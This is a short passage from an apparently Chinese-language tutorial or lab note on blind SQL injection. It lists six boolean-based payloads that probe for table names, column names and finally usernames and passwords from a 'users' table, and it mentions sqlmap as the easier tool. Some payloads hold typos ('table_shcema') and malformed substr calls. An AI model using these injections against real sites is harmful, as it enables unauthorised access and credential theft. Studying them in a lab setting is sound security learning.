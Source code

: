   

免去一个字一个字手动操作的不必要的事情，当然，用sqlmap比较方便。

  

- `id = 1' and length((select group_concat(table_name) from information_schema.tables where table_schema = database()))>13 --+`

- `id = 1' and ascii(substr(group_concat(table_name) from information_schema.tables where table_shcema = database()),1 ,1))>99 --+`

- `id = 1' and length((select group_concat(column_name) from information_schema.columns where table_schema = database() and table_name = 'users'))>13 --+`

- `id = 1' and ascii(substr(group_concat(column_name) from information_schema.columns where table_shcema = database() and table_name = 'users'),1 ,1))>99 --+`

- `id = 1' and length((select group_concat(username, password) from users))>13 --+`

- `id = 1' and ascii(substr(group_concat(username, password) from users),1 ,1))>99 --+`

  
  

想过要不要写一个整合的代码，但sqlmap比较好用，等我以后来补充。

  

sqlmap be like:

  

